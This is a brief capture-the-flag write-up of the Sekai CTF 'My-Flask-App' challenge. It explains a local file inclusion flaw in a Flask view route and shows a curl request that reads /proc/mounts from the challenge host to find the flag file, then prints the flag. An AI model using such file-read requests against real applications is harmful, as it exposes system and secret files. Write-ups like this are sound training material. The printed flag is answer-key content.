




#  My-Flask-App - Sekai Ctf

## Challenge Description

```

I created a Web application in Flask, what could be wrong?

````

After setting up the files, a few interesting things became apparent. First, there is a **Dockerfile** that references the flag:



It seems that the flag is generated as a **32-character string**.  

Looking into `app.py`:



We can clearly see a **Local File Inclusion (LFI)** vulnerability in the `View` route.  

By analyzing the Dockerfile, we know that the flag is generated in a **mounted directory**. Therefore, we can determine the flag's filename by reading:

```text
/proc/mounts
````



```bash
curl 'https://my-flask-app-jehrw8dfliua.chals.sekai.team:1337/view?filename=/proc/mounts'
```

Finally, retrieving the flag:



```text
SEKAI{iS_+H!S_3VEn_call3d_a_cv3}
```
